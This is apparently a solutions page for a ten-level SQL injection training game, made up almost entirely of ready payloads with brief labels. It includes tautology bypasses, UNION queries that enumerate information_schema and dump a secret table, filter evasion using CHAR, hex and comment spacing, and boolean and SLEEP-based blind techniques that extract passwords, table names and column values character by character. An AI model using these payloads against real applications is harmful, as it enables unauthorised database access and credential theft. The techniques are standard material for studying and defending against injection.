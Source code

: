 - 'X' is what you need to replace.

**LEVEL 1**

```
SELECT * FROM users WHERE id = 12;
```

**LEVEL 2**

```
' or id = 9 #
```

**LEVEL 3**

```
' or id = 13 #
```

**LEVEL 4**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT f1, f2, ggg FROM secret WHERE ggg = 'abc' #
```

**LEVEL 5**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT dfgfddfgdfdfdf, dfgdfgfdg, '-' FROM secret #
```

**LEVEL 6**

CHAR(103,111,100) => 'god'

```
-1 or login = CHAR(103,111,100)
```

0x676f64 => in HEX (UTF-8: "god")

```
-1 or login = 0x676f64
```

**LEVEL 7**

```
-1/**/OR/**/login/**/REGEXP/**/0x67656e746f6f/**/
```

**LEVEL 8**

```
-1 OR login = 'fast'
```

To find length of the password:

```
-1 OR (login = 'fast' AND LENGTH(pass) = X)
```

To find value of the password:

```
-1 OR (login = 'fast' AND SUBSTRING(pass, X, 1) = 'X')
```

**LEVEL 9**

To find length of the login:

```
-1 OR (id = XX AND LENGTH(login) = X)
```

To find value of the login (way 1):

```
-1 OR (id = XX AND login = 'XXX')
```

To find value of the login (way 2):

```
-1 OR (id = XX AND SUBSTRING(login, X, 1) = 'X')
```

**LEVEL 10**

Prove that this is Time Based SQL injection:

```
1 AND SLEEP(5)
```

Find table name (and length of it's name):

```
IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1)) = X, SLEEP(5), 0)

IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

Find number of columns and their names:

```
IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'davidblayne' AND table_schema=database()) = X, SLEEP(5), 0)

IF(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='davidblayne' AND table_schema=database() LIMIT X, 1)) = X, SLEEP(5), 0)
IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='davidblayne' LIMIT X, 1), X, 1) = 'X', SLEEP(5), 0)
```

Find value in the column:

```
IF(SUBSTRING((SELECT morkovka FROM davidblayne LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

